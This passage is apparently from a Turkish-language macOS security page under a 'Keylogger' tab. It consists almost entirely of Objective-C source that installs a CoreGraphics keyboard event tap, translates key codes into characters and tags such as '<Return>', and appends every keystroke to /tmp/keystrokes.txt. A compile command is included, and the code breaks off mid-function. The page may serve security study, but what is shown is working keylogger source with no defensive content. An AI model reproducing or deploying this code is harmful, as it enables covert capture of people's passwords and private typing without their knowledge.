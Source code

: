 {{#tab name="Keylogger"}}
Basılan tuşları **`/tmp/keystrokes.txt`** dosyasında saklayın
```objectivec
#import <Foundation/Foundation.h>
#import <ApplicationServices/ApplicationServices.h>
#import <Carbon/Carbon.h>

// clang -framework Foundation -framework ApplicationServices -framework Carbon -o KeyboardMonitor KeyboardMonitor.m

NSString *const kKeystrokesLogPath = @"/tmp/keystrokes.txt";

void AppendStringToFile(NSString *str, NSString *filePath) {
NSFileHandle *fileHandle = [NSFileHandle fileHandleForWritingAtPath:filePath];
if (fileHandle) {
[fileHandle seekToEndOfFile];
[fileHandle writeData:[str dataUsingEncoding:NSUTF8StringEncoding]];
[fileHandle closeFile];
} else {
// If the file does not exist, create it
[str writeToFile:filePath atomically:YES encoding:NSUTF8StringEncoding error:nil];
}
}

CGEventRef KeyboardEventCallback(CGEventTapProxy proxy, CGEventType type, CGEventRef event, void *refcon) {
if (type == kCGEventKeyDown) {
CGKeyCode keyCode = (CGKeyCode)CGEventGetIntegerValueField(event, kCGKeyboardEventKeycode);

NSString *keyString = nil;
// First, handle special non-printable keys
switch (keyCode) {
case kVK_Return: keyString = @"<Return>"; break;
case kVK_Tab: keyString = @"<Tab>"; break;
case kVK_Space: keyString = @"<Space>"; break;
case kVK_Delete: keyString = @"<Delete>"; break;
case kVK_Escape: keyString = @"<Escape>"; break;
case kVK_Command: keyString = @"<Command>"; break;
case kVK_Shift: keyString = @"<Shift>"; break;
case kVK_CapsLock: keyString = @"<CapsLock>"; break;
case kVK_Option: keyString = @"<Option>"; break;
case kVK_Control: keyString = @"<Control>"; break;
case kVK_RightControl: keyString = @"<Control>"; break;
case kVK_RightShift: keyString = @"<Shift>"; break;
case kVK_RightOption: keyString = @"<Option>"; break;
case kVK_Function: keyString = @"<Function>"; break;
case kVK_F1: keyString = @"<F1>"; break;
case kVK_F2: keyString = @"<F2>"; break;
case kVK_F3: keyString = @"<F3>"; break;
// Add more cases here for other non-printable keys...
default: break; // Not a special non-printable key
}

// If it's not a special key, try to translate it
if (!keyString) {
UniCharCount maxStringLength = 4;
UniCharCount actualStringLength = 0;
UniChar unicodeString[maxStringLength];

TISInputSourceRef currentKeyboard = TISCopyCurrentKeyboardInputSource();
CFDataRef layoutData = TISGetInputSourceProperty(currentKeyboard, kTISPropertyUnicodeKeyLayoutData);
const UCKeyboardLayout *keyboardLayout = (const UCKeyboardLayout *)CFDataGetBytePtr(layoutData);

```